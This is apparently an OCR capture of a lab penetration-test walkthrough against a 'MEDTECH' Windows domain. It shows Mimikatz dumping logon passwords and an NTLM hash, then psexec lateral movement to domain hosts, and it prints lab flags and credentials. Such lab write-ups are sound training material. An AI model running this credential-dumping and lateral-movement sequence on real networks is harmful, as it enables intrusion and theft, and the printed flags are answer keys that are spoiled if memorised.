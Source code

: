 # use Mimikatz to capture any information
PS C:\Temp> .\mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
...
         * Username : leon
         * Domain   : MEDTECH
         * NTLM     : 2e208ad146efda5bc44869025e06544a
        kerberos :
         * Username : leon
         * Domain   : MEDTECH.COM
         * Password : rabbit:)
...

# We owned domain admin now!!
# We can use it to access the rest machine VM01 and VM07 to capture flag

# Lets start from VM01
proxychains -q impacket-psexec leon:"rabbit:)"@172.16.219.10
C:\Windows\system32> hostname
DC01
Get-ChildItem -Path C:\Users -Filter *.txt -Recurse
PS C:\Users\Administrator\Desktop> type proof.txt
89e42753586054af7d6f31475d40a3ae
PS C:\Users\Administrator\Desktop> type credentials.txt
web01: offsec/century62hisan51

# VM07
proxychains -q impacket-psexec leon:"rabbit:)"@172.16.219.13
C:\Windows\system32> hostname
PROD01
Get-ChildItem -Path C:\Users -Filter *.txt -Recurse
PS C:\Users\Administrator\Desktop> type proof.txt
0a90f9aae8350a7f6ee8f6b129115d21

# VM03
ssh offsec@192.168.219.120 
Password: century62hisan51
offsec@WEB01:~$ cat .bash_history
...
history 
su root
su - root
exit
sudo su
exit
...
offsec@WEB01:~$ sudo -l
...
    (ALL) NOPASSWD: ALL
    (ALL : ALL) NOPASSWD: ALL
...